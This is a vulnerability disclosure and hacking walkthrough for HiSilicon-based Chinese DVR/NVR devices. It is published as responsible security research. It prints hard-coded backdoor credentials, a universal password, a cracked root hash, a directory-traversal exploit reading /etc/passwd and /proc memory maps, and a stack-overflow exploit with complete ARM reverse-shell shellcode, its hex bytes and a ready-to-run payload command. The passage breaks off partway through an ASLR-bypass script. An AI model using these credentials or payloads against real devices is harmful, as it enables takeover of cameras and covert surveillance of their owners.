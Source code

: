 = HiSilicon DVR hack
Istvan Toth <istvan.toth@ithack.io>
v1.0, 2017-09-06
:source-highlighter: pygments
:toc: preamble
:toclevels: 5
:toc-title: Contents
:image_width: 100%

[abstract]
This report discloses serious vulnerabilities (with proof of concept
(PoC) code) of DVR/NVR devices built using the HiSilicon hi3520d and
similar system on a chip (SoC). Exploiting the vulnerabilities lead to
unauthorized remote code execution (RCE) using only the web interface,
causing full takeover of the exploited device. Due to lack of upgraded
firmwares, using these devices is not recommended.
Contacted the vendor before Dec 2016, but still no
response. The release date of the disclosure is Feb 2017.


== preface

Couple of years ago I have bought a cheap Chinese DVR device on eBay.
The boot logo of the device says: "SECULINK - Security Monitoring". As
an IT security enthusiast, I decided to have a closer look of the device
to see how "secure" that security monitoring service is. Googling about
the topic I have found some interesting materials, but digged deeper,
and found much more interesting and much more serious issues (0-days)
about the device.

Let us have a look at the full hacking session from the beginning. (The
new, own achievements will be noted as the old, known ones as well.)


== exploring the DVR

First we should learn the official user interface, then dig deeper,
maybe try to obtain the firmware. The chances to find vulnerabilities
increase with the firmware.


=== the DVR at a first glance

The DVR device intented for testing is branded as "Seculink".

image::./seculink_device.png[Seculink DVR device]

Available physical interfaces:

* 2x USB ports (officially for mouse to control the GUI console),
* HDMI port (and VGA) for attaching external monitor (for GUI & camera
views),
* 4x BNC connectors for analogoue CCTV cameras,
* SATA port inside for attaching storage for recording the video stream,
* Ethernet port for network access.

Official user interfaces:

* direct access using the HDMI (or VGA) as output and USB mouse /
keyboard for input for camera view / control / full setup,
* network access through HTTP for camera view / control.

The directly accessible setup interface is restricted by user
authentication (username, password). Default superuser is 'admin',
default password is blank.

After setting up a strong password, the user may feel safe that his/her
camera view is not accessible by others. People often forward the web
port (tcp/80) of the DVR device to the WAN side from their secure LAN in
order to access the DVR streams from outside (we may check this e.g. by
a suitable Shodan search ;) ).


=== obtaining the firmware

There may be lot of ways for getting the firmware:

* get it from the device by some soft method (using the official
interface, or exploiting some vulnerability),
* get it from the device by some hard method (JTAG, serial console,
etc.),
* find and download it from the internet (if it is available).

Although the latter (download) method is working here and it is the
easiest, let us try the first one, because it gives other information
about the device, too.

=== service scanning

Let us do a full port scan on the DVR. Note, that the (default if run by
root) SYN scan is very slow because dropped packets, but the full TCP
connect scan finishes in a couple of minutes.

----
# Nmap 7.40 scan initiated Sun Sep  3 01:57:47 2017 as: nmap -v -sV -sT -p- -oA nmap_full 192.168.88.127
Nmap scan report for dvr.lan (192.168.88.127)
Host is up (0.028s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE       VERSION
23/tcp    open  telnet        BusyBox telnetd
80/tcp    open  http          uc-httpd 1.0.0
554/tcp   open  rtsp          LuxVision or Vacron DVR rtspd
9527/tcp  open  unknown
34567/tcp open  dhanalakshmi?
34599/tcp open  unknown
MAC Address: 00:12:12:15:B3:E7 (Plus )
Service Info: Host: LocalHost; Device: webcam
# Nmap done at Sun Sep  3 02:00:42 2017 -- 1 IP address (1 host up) scanned in 174.79 seconds
----

Summarizing and manual testing:

* 23/tcp is a telnet login interface protected by some username
+ password (not the application credentials)
* 80/tcp is the web interface protected by the application credentials
* 554/tcp is an rtsp service; it can be opened by a common rtsp url:
+
----
rtsp://192.168.88.127:554/user=admin&password=&channel=1&stream=0.sdp
----
+

Note, that opening the rtsp stream requires credentials as well.
* 9527/tcp seems to be a (secret?) service port with some very
interesting features,
* 34567/tcp and 34599/tcp seem to be some data ports related to the DVR
application.

Here we should state that the device is probably some Linux-like
system.

Connecting to 9527/tcp (by raw netcat) shows the application console
with logging messages and a login prompt. Logging in with any of the
defined application credentials is working. Issuing `help` after the
prompt gives a short description of the console commands. The command
`shell` seems to be the most interesting. Yes, it gives a root shell to
the devices. ;)

Note, that this is obviously a serious security issue, because any (low
privileged) application user should not get a root shell on the device
automatically.

=== root shell

Exploring the device in the root shell (e.g. by `dmesg`) makes it
obvious that the DVR is running a Linux kernel (version 3.0.8), it has
an ARMv7 CPU, the SoC model is `hi3520d`.

From the list of running processes (`ps`) it is clear that the DVR
application is `/var/Sofia`, which is listening on 34568/udp and
34569/udp as well besides the above tcp ports detected by nmap
(`netstat -nlup`).

From the list of mounted disks (`mount` command), it is clear that the
firmware image is in the `/dev/mtdblockX` devices (where X=0,1,2,3,4,5).

The firmware is small and therefore restricted, so we should be creative
if we want to copy files to/from the device. Fortunately NFS is
supported, so setting up an NFS server on our desktop machine and
mounting it from the DVR solves the problem:

----
mount -t nfs 192.168.88.100:/nfs /home -o nolock
----

Now obtaining the firmware is straightforward:

----
cat /dev/mtdblock1 > /home/mtdblock1-root.img
cat /dev/mtdblock2 > /home/mtdblock2-usr.img
cat /dev/mtdblock3 > /home/mtdblock3-custom.img
cat /dev/mtdblock4 > /home/mtdblock4-logo.img
cat /dev/mtdblock5 > /home/mtdblock5-mtd.img
----

We may get the files (not just the raw images):

----
cp /var/Sofia /home/
tar -cf /home/fs.tar /bin /boot /etc /lib /linuxrc /mnt /opt /root /sbin /share /slv /usr /var
----

=== telnet interface

For accessing the device through the telnet interface (port 23/tcp), we
may need some OS credentials. Looking at `/etc/passwd` we have the
password hash for the root user:

----
root:absxcfbgXtb3o:0:0:root:/:/bin/sh
----

Note, that there is no other user than root, everything is running with
full privileges. (So if someone breaks into the device somehow, there is
no barrier, the attacker gains full power immediately.)

Assuming a six-char alphanum (lowercase) password, hashcat cracks the
above weak DES hash quickly:

----
$ ./hashcat64.bin -a3 -m1500 absxcfbgXtb3o -1 ?l?d ?1?1?1?1?1?1

absxcfbgXtb3o:xc3511                                      
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Type........: descrypt, DES (Unix), Traditional DES
Hash.Target......: absxcfbgXtb3o
Time.Started.....: Sun Sep  3 03:25:07 2017 (2 mins, 29 secs)
Time.Estimated...: Sun Sep  3 03:27:36 2017 (0 secs)
Guess.Mask.......: ?1?1?1?1?1?1 [6]
Guess.Charset....: -1 ?l?d, -2 Undefined, -3 Undefined, -4 Undefined 
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....:   815.9 kH/s (203.13ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 121360384/2176782336 (5.58%)
Rejected.........: 0/121360384 (0.00%)
Restore.Point....: 93440/1679616 (5.56%)
Candidates.#1....: sa8711 -> h86ani
HWMon.Dev.#1.....: N/A

Started: Sun Sep  3 03:25:04 2017
Stopped: Sun Sep  3 03:27:38 2017
----

So with user `root` and password `xc3511` logging in throught the telnet
interface on port 23/tcp is possible. This hard-coded root account
accessible on the unclosable telnet interface is obviously a backdoor.

These results were almost available by others before our research, but
the following is completely new.

== firmware reversing

Exploring the firmware it turns out that the binary `/var/Sofia` is the
main application which implements every interface besides video
processing and others. So this binary seems to be the most interesting
for us.

Unfortunately it is (statically linked and) stripped which makes static
analysis harder:

----
$ file Sofia 
Sofia: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, stripped, with debug_info
----

So besides static analyis (with radare2 or IDA) dynamic analysis should
be very helpful.

=== remote gdb

For dynamic analysis, attaching GNU Project debugger (GDB) to the remote
`/var/Sofia` application should be advantageous. The recommended method
is to run (and attach) `gdbserver` on the remote device, and connect
`gdb` to it from the local machine.

Of course we need a `gdbserver` compiled (preferably statically) for the
appropriate ARM architecture. In order to build it, we may use
https://www.uclibc.org/[µClibc] which is the recommended C library for
embedded systems (like our DVR). Available builds are dynamic builds
which are problematic on our DVR, so we should make custom static builds
ourselves. There is a nice build environment called
https://buildroot.org/[Buildroot] which makes building work
out-of-the-box (select the required apps (e.g. gdb) with
`make menuconfig`, do not forget to choose static libraries, then run
`make`).

After a short build time (~10-15 mins) all the necessary tools should be
available. The static binaries can be transferred to the device by the
previously mentioned NFS method. Note, that the directory `/var`
containing the Sofia binary is a ramfs, so it is not persistent across
reboots. If we want to transfer the binaries (almost) permanently, the
rw partition `/mnt/mtd` containing the configuration files should be a
suitable target. If you build the package `openssh` too, `scp` will be
available which makes transferring files more easier.

Now the firmware is ready for some reversing. Attaching `gdbserver`
remotely is working now (getting the PID of the Sofia process is easy by
`ps`):

----
$ /mnt/mtd/gdbserver --attach :2000 610
----

Connecting from the local machine:

----
$ gdb -ex 'set gnutarget elf32-littlearm' -ex 'target remote 192.168.88.127:2000'
----

Note, that using some GDB extension (like
http://gef.readthedocs.io/en/master/[GEF]) is recommended. If pausing
the application does not work (with C-c) for some reason, sending a TRAP
signal to the Sofia process (by `kill -TRAP 610`) should pause it.


=== inspect the authentication procedure

The recommended tool for static analysis is obviously Hex-Ray's
https://www.hex-rays.com/products/ida/[IDA Pro]. Unfortunately it is not
cheap, but much better than any other tools.

There are 15.000+ functions after initial auto analysis, but finding the
auth function is just a moment with IDA (using simple Python scripting).
The
https://www.hex-rays.com/products/ida/support/idapython_docs/[IDAPython]
snippet below searches for all functions that references to anything
related to "Users" _and_ "Password" (at the same time):

[source,python]
----
x1, x2 = set(), set()
for loc, name in Names():
  if "Users" in name:
    for addr in XrefsTo(loc):
      x1.add(GetFunctionName(addr.frm))
  elif "Password" in name:
    for addr in XrefsTo(loc):
      x2.add(GetFunctionName(addr.frm))
print x1 & x2
----

The result is only one function: `sub_2D857C`. Quick analysis of this
function confirms that this should be the authentication function.

There is an initial check on the cleartext password against a hardcoded
string (before getting the password hash of the user from the config).
If it passes, authentication is granted. This is an ugly backdoor in the
application. The universal password is: `I0TO5Wv9`.

With this password we can access anything in the application as any user
(e.g. admin). For example, getting the video stream:

----
$ cvlc 'rtsp://192.168.88.127:554/user=admin&password=I0TO5Wv9&channel=1&stream=0.sdp'
----

Or getting a root shell on the application console (9527/tcp) is also
working:

----
$ nc 192.168.88.127 9527
nc: using stream socket
   
username:admin
password:I0TO5Wv9
login(admin, ******, Console, address:)
admin$
----

One more interesting result in the authentication algorithm:
in some circumstances the auth function accepts not just the
password but the hash also. Opening the rtsp video stream is
possible by not just the password but the hash (which is stored
in /mnt/mtd/Config/Account1). For example, `tlJwpbo6` is the
hash of the empty password (see next section too), so
```
cvlc 'rtsp://192.168.88.127:554/user=admin&password=&channel=1&stream=0.sdp'
cvlc 'rtsp://192.168.88.127:554/user=admin&password=tlJwpbo6&channel=1&stream=0.sdp'
```
also works.


=== password hash function

Another result of the auth function (deeper) static analysis: the
password hash function is `sub_3DD5E4`. It is basically MD5 with some
strange transformations. Reversed and implemented it in Python:

[source,python]
----
import hashlib

def sofia_hash(msg):
    h = ""
    m = hashlib.md5()
    m.update(msg)
    msg_md5 = m.digest()
    for i in range(8):
        n = (ord(msg_md5[2*i]) + ord(msg_md5[2*i+1])) % 0x3e
        if n > 9:
            if n > 35:
                n += 61
            else:
                n += 55
        else:
            n += 0x30
        h += chr(n)
    return h
----

With the implemented hash algorithm, brute forcing passwords or setting
arbitrary passwords is possible.


== buffer overflow in builtin webserver

The Sofia binary handles the HTTP requests on port 80/tcp. Let us try
some fuzzing with the requests. Of course, attaching gdb (see above)
should be helpful. Actually, we should kill the Sofia process and
restart it with gdbserver to see the console output as well:

----
$ kill 610
$ /mnt/mtd/gdbserver :2000 /var/Sofia
----

And locally:

----
$ gdb -q -ex 'set gnutarget elf32-littlearm' -ex 'target remote 192.168.88.127:2000'
gef>  c
----

Now let us see the GET requests. No response:

----
$ echo 'GET /' | nc 192.168.88.127 80
----

Normal response (even without proper closing and/or newline at the end):

----
$ echo -ne 'GET / HTTP' | nc 192.168.88.127 80
----

Test for some overflow with a looong request:

----
$ python -c 'print "GET " + "a"*1000 + " HTTP"' |  nc 192.168.88.127 80
----

Nice. The response is a 200 with a "404 File Not Found" message, but we
can see a wonderful crash in the gdb. ;)

Note, that there is a watchdog kernel module enabled for the Sofia
application. If it is not running for a minute, the device reboots. This
is good on the one hand if we experiment with a remote device, but it is
bad on the other if we want to do some debugging smoothly.

The watchdog can not be turned off once it has been started, so the only
way to get rid of it is to modify the read-only firmware by reflashing.
It is not recommended unless we want to brick our test device. ;)


=== program flow control

Why is the crash wonderful (in an attacker's view)? The remote process
Sofia got SIGSEGV (segmentation fault), the stack is filled up with our
"a" characters, but the most important is: the $pc (program counter)
register has our injected value `0x61616160` ("aaaa" - 1) in it
(probably triggered by a ret but the cause is not important). This
should be a classical stack overflow, and this means that we have the
chance to control the program flow easily.

After some experimenting (by interval halving):

----
$ python -c 'print "GET " + "0123" + "a"*(299-4) + "wxyz" + " HTTP"' |  nc 192.168.88.127 80
----

This results SIGSEGV, too, and the $pc register is `0x7a797876`
(~"wxyz"; reversed, because byte-ordering is little-endian; and -1
because alignment). Our payload starts (with "0123aaa...") at $sp+0x14
(stack base + 0x14).


=== remote code execution

Exploiting such an overflow most easily and effectively is by injecting
some shellcode into the stack and redirect the program flow there. This
way we get arbitrary remote code execution on the target. Because there
is no privilege separation on the device OS, this means full control
(root shell access).

However, there may be (modern) exploit mitigation techniques enabled
which could make an attacker's life much harder.

The most basic way protecting against shellcodes on stack is the
No-eXecute (NX) bit technology. This can prevent executing code on
selected memory pages (usually pages with write permission like stack).
Fortunately (from the view of the attacker ;) ), there is no NX bit set
(look at STACK flags, rwx):

----
$ objdump -b elf32-littlearm -p Sofia

Sofia:     file format elf32-littlearm

Program Header:
0x70000001 off    0x00523f34 vaddr 0x0052bf34 paddr 0x0052bf34 align 2**2
         filesz 0x000132a8 memsz 0x000132a8 flags r--
    LOAD off    0x00000000 vaddr 0x00008000 paddr 0x00008000 align 2**15
         filesz 0x005371dc memsz 0x005371dc flags r-x
    LOAD off    0x005371dc vaddr 0x005471dc paddr 0x005471dc align 2**15
         filesz 0x000089c8 memsz 0x000dad8c flags rw-
     TLS off    0x005371dc vaddr 0x005471dc paddr 0x005471dc align 2**2
         filesz 0x00000004 memsz 0x00000018 flags r--
   STACK off    0x00000000 vaddr 0x00000000 paddr 0x00000000 align 2**2
         filesz 0x00000000 memsz 0x00000000 flags rwx
private flags = 5000002: [Version5 EABI]<Unrecognised flag bits set>
----

or just use `checksec` in gdb gef. `checksec` in gdb gef also tells us
that there is no other mitigations present such as stack canary (which
is obvious, because we could not control $pc with stack overflow if
there would be stack canary present).

The only thing we should know before getting the RCE work is the stack
address. We should inject address $sp+0x14 in the appropriate position
of our payload ("wxyz" above) in order to redirect program flow to the
shellcode.

There is also a mitigation technique which could make this harder (or
very hard, almost impossible in some cases): address space layout
randomization (ASLR). ASLR randomizes the base addresses of the memory
segments (e.g. the base address of the stack).

Out of luck, ASLR is enabled ("2" means full randomization, "0" is
disabled):

----
$ cat /proc/sys/kernel/randomize_va_space 
2
----


==== RCE without ASLR

Let us try to exploit the overflow first with ASLR turned off.

----
$ echo 0 > /proc/sys/kernel/randomize_va_space 
----

Following the above procedure, we get that the stack address ($sp) is
0x5a26f3d8 at the time of the SIGSEGV crash (and it is the same in
different runs with ASLR turned off).

So the payload should be:

----
python -c 'print "GET " + shellcode + "a"*(299-len(shellcode)) + "\xd8\xf3\x26\x5a" + " HTTP"' | nc 192.168.88.127 80
----

where the shellcode should be something we want to execute, preferably a
connectback shellcode. Note, that there are "badchars", which must be
avoided: 0x00, 0x0d ('\n'), 0x20 (' '), 0x26 ('&'), 0x3f ('?').
Moreover, there is a 299 byte size limit. Shellcode generators can not
deal with our badchar list, even using automated encoders can not solve
the problem (because of the size limit).

So a custom shellcode should be generated. The shellcode here gives a
connectback shell using socket, connect, dup2 and execve system calls
(or supervisor calls according to the terminology of the ARM world). We
have to be strict and creative in order to avoid badchars. Labels should
not be used, those are just for easier readability.

[source,asm]
----
.section    .text
.global     _start

@ ensure switching to thumb mode (arm mode instructions)
.code 32
_0:    add  r1, pc, #1
_4:    bx   r1

@ thumb mode instructions
_start:
.code 16

@ *0x52 -= 1 (port -= 0x100; make it possible to use port numbers <1024)
_8:    add  r1, pc, #68      @ r1 <- pc+68 = 0xc+68 = 0x50
_a:    ldrb r2, [r1, #2]     @ r2 <- *0x52
_c:    sub  r2, #1           @ r2 <- r2-1
_e:    strb r2, [r1, #2]     @ r2 -> *0x52

@ socket(2, 1, 0) = socket(AF_INET, SOCK_DGRAM, 0)
_10:   mov  r1, #2          @ r1 <- 2
_12:   add  r0, r1, #0      @ r0 <- r1 + 0 = 2
_14:   mov  r1, #1          @ r1 <- 1
_16:   sub  r2, r2, r2      @ r2 <- r2 - r2 = 0
_18:   lsl  r7, r1, #8      @ r7 <- r1<<8 = 1<<8 = 256
_1a:   add  r7, #25         @ r7 <- r7 + 25 = 281
_1c:   svc  1               @ r0 <- svc_281(r0, r1, r2) = socket(2, 1, 0)

@ connect(r0, 0x50, 16) = connect(&socket, &struct_addr, addr_len)
_1e:   add  r6, r0, #0       @ r6 <- r0 + 0 = &socket
_20:   add  r1, pc, #44      @ r1 <- pc+44 = 0x24+44 = 0x50
_22:   mov  r3, #2           @ r3 <- 2
_24:   strh r3, [r1, #0]     @ 2 -> *0x50
_26:   mov  r2, #16          @ r2 <- 16
_28:   add  r7, #2           @ r7 <- r7 + 2 = 283
_2a:   svc  1                @ r0 <- svc_283(r0, r1, r2) = connect(&socket, 0x50, 16)

@ attach stdin/stdout/stderr to socket: dup2(r0, 0), dup2(r0, 1), dup2(r0, 2)
_2c:   mov  r7, #62       @ r7 <- 62
_2e:   add  r7, #1     	  @ r7 <- r7 + 1 = 63
_30:   mov  r1, #200      @ r1 <- 200

_32:   add  r0, r6, #0    @ r0 <- r6 + 0 = &socket
_34:   svc  1             @ r0 <- svc_63(r0, r1) = dup2(&socket, 0..200)
_36:   sub  r1, #1        @ r1 <- r1 - 1
_38:   bpl  _32           @ loop until r1>0 (dup2 every fd to the socket)

@ execve('/bin/sh', NULL, NULL)
_3a:   add  r0, pc, #28     @ r0 <- pc+28 = 0x3c+28 = 0x58
_3c:   sub  r2, r2, r2      @ r2 <- r2 - r2 = 0
_3e:   strb r2, [r0, #7]    @ 0 -> *(0x58+7), terminate '/bin/sh' with \x00
_40:   push {r0, r2}        @ *sp <- {r0, r1, r2} = {0x58, 0x0, 0x0}
_42:   mov  r1, sp          @ r1 <- sp
_44:   mov  r7, #11         @ r7 <- 11
_46:   svc  1               @ svc_11(r0, r1, r2) = execve('/bin/sh\x00', ['/bin/sh\x00', 0], 0)

_48:   mov  r7, #1          @ r7 <- 1
_4a:   add  r0, r7, #0      @ r0 <- r7 + 0 = 1
_4c:   svc  1               @ svc_1(r0) = exit(1)

_4e:   nop

@ struct sockaddr (sa_family = 0x0002 (set by shellcode), sa_data = (port, ip) )
_50:   .short 0xffff
_52:   .short 0x697b            @ port 31377 (hex(31337+0x100) in little-endian)
_54:   .byte 192,168,88,100   	@ inet addr: 192.168.88.100
_58:   .ascii "/bin/shX"      	@ 'X' will be replaced with \x00 by the shellcode

.word 0xefbeadde        @ deadbeef ;)
----

Compiling the shellcode and getting the raw binary bytes (using any
cross-tool for ARM should work, e.g. the ones built using buildroot in
`buildroot-2017.02.5/output/host/usr/bin/` is good, too):

----
$ armv7a-hardfloat-linux-gnueabi-as shellcode.S -o shellcode.o
$ armv7a-hardfloat-linux-gnueabi-ld.bfd shellcode.o -o shellcode
$ armv7a-hardfloat-linux-gnueabi-objcopy -O binary --only-section=.text ./shellcode ./shellcode.bin
$ cat shellcode.bin | xxd -p
01108fe211ff2fe111a18a78013a8a700221081c0121921a0f02193701df
061c0ba102230b801022023701df3e270137c821301c01df0139fbd507a0
921ac27105b469460b2701df0127381c01dfc046ffff7b69c0a858642f62
696e2f736858deadbeef
----

Injecting this with the payload should make the exploit work, and it
should give a connectback shell to the remote device.

Of course, first start a listener on `192.168.88.100`:

----
$ nc -nvlp 31337
----

Then start up the payload:

----
$ python -c 'shellcode = "01108fe211ff2fe111a18a78013a8a700221081c0121921a0f02193701df061c0ba102230b801022023701df3e270137c821301c01df0139fbd507a0921ac27105b469460b2701df0127381c01dfc046ffff7b69c0a858642f62696e2f736858deadbeef".decode("hex");  print "GET " + shellcode + "a"*(299-len(shellcode)) + "\xec\xf3\x26\x5a" + " HTTP"' | nc 192.168.88.127 80 
nc: using stream socket
HTTP/1.0 200 OK
Content-type: application/binary
Server: uc-httpd 1.0.0
Expires: 0

<html><head><title>404 File Not Found</title></head>
<body>The requested URL was not found on this server</body></html>
----

Exploit should work! :) In the local gdb:

----
process 1064 is executing new program: /bin/busybox
Reading /bin/busybox from remote target...
Reading /bin/busybox from remote target...
----

And the RCE is ready on the netcat listener:

----
nc: connect to 192.168.88.100 31337 from 192.168.88.127 55442
nc: using stream socket
----

Now executing arbitraty commands (as root!) on the remote system is
possible.

But unfortunately the exploit is not ready for real world deployment,
beacuse ASLR is turned on and thus we do not know the shellcode start
address. Yet.


==== defeating ASLR

Defeating ASLR is not an easy job, but it can be done often with some
creativity. Usually there are two ways to do it:

* finding some weakness in the randomizer and attack it by brute force
or some partial leak / partial overwrite,
* leak the randomized memory addresses of the remote binary.

Now brute forcing seems to be useless (triggering a bad address causes
crash and slow reboot), so only the leak seems to be convenient (if we
find any).

After a long research it almost had to be given up, could not find any
leak, but then an idea came up from a totally different direction.

There is a different vulnerability in the webserver, a classical
directory traversal vulnerability. In fact, it also works for listing
directories (this will be important also).

The directory traversal vulnerability means:

----
$ echo -ne 'GET ../../etc/passwd HTTP' | nc 192.168.88.127 80
nc: using stream socket
HTTP/1.0 200 OK
Content-type: text/plain
Server: uc-httpd 1.0.0
Expires: 0

root:absxcfbgXtb3o:0:0:root:/:/bin/sh
----

and we can get dir listing also:

----
$ echo -ne 'GET ../../etc HTTP' | nc 192.168.88.127 80nc: using stream socket
HTTP/1.0 200 OK
Content-type: application/binary
Server: uc-httpd 1.0.0
Expires: 0

<H1>Index of /mnt/web/../../etc</H1>

<p><a href="//mnt/web/../../etc/.">.</a></p>
<p><a href="//mnt/web/../../etc/..">..</a></p>
<p><a href="//mnt/web/../../etc/fs-version">fs-version</a></p>
<p><a href="//mnt/web/../../etc/fstab">fstab</a></p>
<p><a href="//mnt/web/../../etc/group">group</a></p>
<p><a href="//mnt/web/../../etc/init.d">init.d</a></p>
<p><a href="//mnt/web/../../etc/inittab">inittab</a></p>
<p><a href="//mnt/web/../../etc/mactab">mactab</a></p>
<p><a href="//mnt/web/../../etc/memstat.conf">memstat.conf</a></p>
<p><a href="//mnt/web/../../etc/mtab">mtab</a></p>
<p><a href="//mnt/web/../../etc/passwd">passwd</a></p>
<p><a href="//mnt/web/../../etc/passwd-">passwd-</a></p>
<p><a href="//mnt/web/../../etc/ppp">ppp</a></p>
<p><a href="//mnt/web/../../etc/profile">profile</a></p>
<p><a href="//mnt/web/../../etc/protocols">protocols</a></p>
<p><a href="//mnt/web/../../etc/resolv.conf">resolv.conf</a></p>
<p><a href="//mnt/web/../../etc/services">services</a></p>
<p><a href="//mnt/web/../../etc/udev">udev</a></p>
----

Note, that this vulnerability is serious, because the attacker can read
any files, including recorded videos (if the device has some HDD
storage).

Furthermore, the vulnerability can help us to defeat ASLR.

The `/proc` filesystem contains a lot of information about running
processes in the `/proc/[pid]` directories. Listing `/proc` is possible
using `GET ../../proc`, this way we can get all of the PIDs. If the
`/proc/[pid]/cmdline` is `/var/Sofia`, the PID of the application is
found.

The most important information for defeating ASLR is in
`/proc/[pid]/smaps`. This file contains memory page statistics, contains
page addresses and other interesting information (e.g. rss). For
example:

----
$ echo -ne 'GET ../../proc/610/cmdline HTTP' | nc 192.168.88.127 80
nc: using stream socket
HTTP/1.0 200 OK
Content-type: text/plain
Server: uc-httpd 1.0.0
Expires: 0

/var/Sofia

$ echo -ne 'GET ../../proc/610/smaps HTTP' | nc 192.168.88.127 80
nc: using stream socket
HTTP/1.0 200 OK
Content-type: text/plain
Server: uc-httpd 1.0.0
Expires: 0

...

4b699000-4be98000 rwxp 00000000 00:00 0 
Size:               8188 kB
Rss:                   4 kB
Pss:                   4 kB
Shared_Clean:          0 kB
Shared_Dirty:          0 kB
Private_Clean:         0 kB
Private_Dirty:         4 kB
Referenced:            4 kB
Anonymous:             4 kB
AnonHugePages:         0 kB
Swap:                  0 kB
KernelPageSize:        4 kB
MMUPageSize:           4 kB
Locked:                0 kB

...
----

This is only one page, the listing contains about ~150 pages.

Looking at the above structure (making attention to the page sizes,
patterns, etc.), we can guess (by experiment and heuristics) which one
contains the stack of the required thread. The offset of the stack from
the base address is constant (it is 0x7fd3d8).

The snippet guessing the memory page:

[source,python]
----
def guessregion(smaps):
    for t in range(len(smaps)-7, 1, -1):
        if (smaps[t][1][0], smaps[t+1][1][0], smaps[t+2][1][0], smaps[t+3][1][0], smaps[t+4][1][0], smaps[t+5][1][0], smaps[t+6][1][0]) == (8188, 8188, 8188, 8188, 8188, 8188, 8188) and
